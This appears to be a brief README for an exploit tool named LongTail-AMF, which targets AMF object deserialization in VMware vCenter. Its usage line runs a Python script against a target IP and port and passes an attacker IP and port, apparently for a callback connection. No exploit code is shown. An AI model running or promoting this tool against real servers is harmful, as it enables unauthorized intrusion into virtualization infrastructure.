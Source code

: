 # LongTail-AMF
vcenter AMF object deserialization exploit 


## Usage  
```bash
python3 longtail targetip targetport  attackip attacker port
```
